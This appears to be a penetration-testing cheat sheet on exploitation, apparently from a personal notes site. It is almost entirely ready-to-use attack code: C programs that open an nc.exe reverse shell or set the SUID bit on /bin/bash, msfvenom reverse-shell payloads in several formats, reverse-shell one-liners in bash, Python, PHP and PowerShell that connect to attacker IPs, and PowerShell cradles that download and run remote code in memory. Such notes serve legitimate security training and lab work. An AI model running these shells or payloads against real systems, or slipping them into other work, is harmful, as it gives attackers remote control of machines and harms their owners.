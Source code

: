 # 💣 Exploitation

## Locating Public Exploits

```shell
# search for an exploit
searchsploit <name>

# show the exploit
searchsploit -x <id>

# copy the exploit to the current folder
searchsploit -m <id>

# NSE
locate .nse | grep <name>
nmap --script-help <name>
```

### Compiling Exploits

Windows reverse shell using `nc.exe`

```c
#include <stdlib.h>

int main(){
    system("C:\\programdata\\nc.exe -e cmd.exe <ip> <port>");
    return 0;
}
```

Linux bash SUID bit

```c
#include <stdlib.h>

int main() {
    system("chmod +s /bin/bash");
    return 0;
}
```

=== "Windows"

    ```shell
    sudo apt install mingw-w64
    # 64-bit and 32-bit C++ files
    x86_64-w64-mingw32-g++ myprogram.cpp -o myprogram.exe
    i686-w64-mingw32-g++ myprogram.cpp -o myprogram.exe

    # 64-bit and 32-bit C files
    x86_64-w64-mingw32-gcc myprogram.c -o myprogram.exe
    i686-w64-mingw32-gcc myprogram.c -o myprogram.exe
    ```

=== "Linux"

    ```shell
    sudo apt install gcc g++ make
    gcc myprogram.c -o myprogram
    g++ myprogram.cpp -o myprogram
    ```

## Reverse Shells

!!! tip
    Beware of reflected ports!

> [revshells.com](https://revshells.com)

### MSFVenom

```shell
# stageless x64 shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o reverse.elf
# meterpreter staged shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o reverse.elf


msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

### One liners

```shell
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

python -c 'import 
socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

<?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.106/443 0>&1');?>

# powershell
# download and execute a file from memory
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"

$client = New-Object System.Net.Sockets.TCPClient("192.168.45.230",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Upgrade a Reverse Shell into a full TTY

Spawn a TTY Shell

```shell
# using Python
python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/sh")'

# if Python is not available
/bin/bash -i
script /dev/null -c bash
```

Background the shell and fix settings

```shell
# CTRL+Z
stty raw -echo; fg
```

Set terminal env variables

```shell
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 40 columns 100
```

### Add tools to Windows restricted shell

```shell
set PATH=%PATH%;C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0\;
```

### Better listener with rlwrap

```shell
rlwrap nc -lnvp 4444
```

### Penelope

If the fully interactive shell can't be achieved and it's impossible to edit a file, [penelope](https://github.com/brightio/penelope) can help.

```shell
python penelope.py 80
```

### Powercat

> <https://github.com/besimorhino/powercat>

```shell
# load the function from .ps1 file:
.\powercat.ps1
# load the function from a URL and connect back to the listener:
IEX (New-Object System.Net.WebClient).DownloadString('http://<ip>:<port>/powercat.ps1'); powercat -c <ip> -p <port> -e cmd
```

### Check Connectivity

```shell
# on Kali
sudo tcpdump -i tun0 icmp

# from the target
ping -c 1 <kali_ip>
```
